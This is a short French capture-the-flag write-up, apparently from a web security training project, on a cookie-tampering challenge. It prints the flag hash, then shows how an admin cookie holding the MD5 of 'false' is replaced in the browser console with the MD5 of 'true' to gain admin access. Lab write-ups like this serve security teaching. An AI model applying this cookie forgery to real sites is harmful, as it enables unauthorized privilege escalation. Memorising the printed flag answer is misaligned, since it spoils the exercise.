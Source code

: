 # COOKIE SESSION

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Découverte

Lorsqu'on regarde les cookies enregistré par le site dans la console voici ce \
qui en ressort :

```diff
document.cookie
> "I_am_admin=68934a3e9455fa72420237eb05902327"
```
68934a3e9455fa72420237eb05902327 est crypté en md5 et signifie "false". \
Essayons donc avec "true".

```
68934a3e9455fa72420237eb05902327 -> "false"
"true" -> b326b5062b2f0e69046810717534cb09
```

```
document.cookie="I_am_admin=b326b5062b2f0e69046810717534cb09"
```

Lorsqu'on rafraichit la page bingo, une alerte avec le flag !



## Documentation
- [owasp - Session Management](https://owasp.org/www-project-cheat-sheets/cheatsheets/Session_Management_Cheat_Sheet.html)

---

[RETURN](https://github.com/jlange91/darkly)
